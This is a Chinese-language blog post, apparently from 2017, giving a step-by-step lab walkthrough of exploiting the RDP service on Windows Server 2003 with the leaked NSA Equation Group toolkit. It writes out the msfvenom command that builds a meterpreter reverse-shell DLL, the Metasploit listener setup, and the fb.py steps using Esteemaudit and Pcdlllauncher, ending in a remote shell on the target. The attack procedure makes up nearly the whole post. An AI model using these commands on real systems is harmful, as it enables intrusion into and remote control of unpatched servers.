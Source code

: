 ```yaml
---
title: NSA工具包windows 0day验证之RDP漏洞利用
date: 2017-06-15 21:32:39
tags: 网络安全
---
```


### 验证环境：

攻击机1(本次演示IP：172.16.11.2)：windows系统，[安装python2.6.6](https://www.python.org/download/releases/2.6.6/), [pywin32-221.win32-py2.6.exe](https://sourceforge.net/projects/pywin32/files/pywin32/Build%20221/), xshell, xftp, [下载方程式工具包](https://codeload.github.com/misterch0c/shadowbroker/zip/master)放到C盘，在工具包目录下的windows目录新建文件夹"listeningposts"，并且开放所有端口关闭防火墙，确保内网可以访问之

攻击机2(本次演示IP：172.16.12.2)：kali linux，需要开启ssh服务，详情百度

目标机1(本次演示IP：172.16.12.4)：开放了3389端口的Windows Server 2003

以上所有IP之间均可以直接访问
### 验证步骤：
<!--more-->
#### 第一步：生成可执行的恶意dll文件
0x01
首先通过xshell连接到kali linux，打开xshell，在跳出来的窗口点击new(新建)，然后填入kali的IP地址点击确定然后连接，接着依次输入kali的账号与密码即可连接，可能会跳出安全警告，点击接收并保存即可，连接完成得到如图：
![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/1.jpg "1.jpg")
0x02
执行命令：
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.16.12.2 LPORT=5555 -f dll >s.dll
```
在kali根目录下生成s.dll文件，其中LHOST为kali的IP地址，LPORT为一个可任意填写的端口，届时将使目标机执行该dll向172.16.12.2:5555发送shell
0x03
点击xshell如图位置
![3.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3.jpg "3.jpg")
打开本地C盘，并将kali目录下刚刚生成的s.dll复制到本机的C盘根目录下，如图
![4.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/4.jpg "4.jpg")
#### 第二步：配置kali使得kali处于监听状态
0x01
依次输入命令
```
msfconsole
use exploit/multi/handler
set lhost 172.16.12.2
set lport 5555
set PAYLOAD windows/meterpreter/reverse_tcp
exploit
```
看到如图即说明配置成功
![2.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/2.jpg "2.jpg")
这时就可以将xshell最小化，等后边再用
#### 第三步：使用方程式工具包进行攻击
0x01
将方程式工具包下的windows文件夹重命名为win，然后拷贝到C盘根目录下，并在该文件夹下新建一个名为"listeningposts"的文件夹，如图，不然运行会报错
![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/5.jpg "5.jpg")
0x02
打开命令提示符，输入
```
C:\win\fb.py
```
然后依次输入目标IP，本地IP，是否重定向，日志存放位置，新建工程，给该工程命名，最后确认，如图
![1.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/1.jpg "1.jpg")
最后敲击回车
0x03
显示出`fb >`之后输入命令
```
use Esteemaudit
```
使用该工具，之后除了下图所示位置需要修改，其他都保持默认直接敲击回车即可
（设置监听还是连接、系统位数、系统版本）
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/2.jpg "2.jpg")
（回拨IP以及端口，端口号可以任意设置）
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/3.jpg "3.jpg")
（配置DLL路径，需要改为实际路径）
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/4.jpg "4.jpg")
之后几个回车即可看到连接成功，如图
![5.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/5.jpg "5.jpg")
0x04
接着输入命令
```
use Pcdlllauncher
```
使用Pcdlllauncher，除了下图其他保持默认即可
（改为自己的实际路径）
![6.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/6.jpg "6.jpg")
（之前生成的s.dll路径）
![7.jpg](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/7.jpg "7.jpg")
之后不断回车，会看到如图
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/10.jpg "10.jpg")
不用理他，打开xshell可以看到已经成功反弹shell，如下图
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/8.jpg "8.jpg")
然后就可以比如说输入shell模拟终端执行命令了
![](https://blog-1252906577.costj.myqcloud.com/img/NSA%E6%BC%94%E7%A4%BA/3389/9.jpg "9.jpg")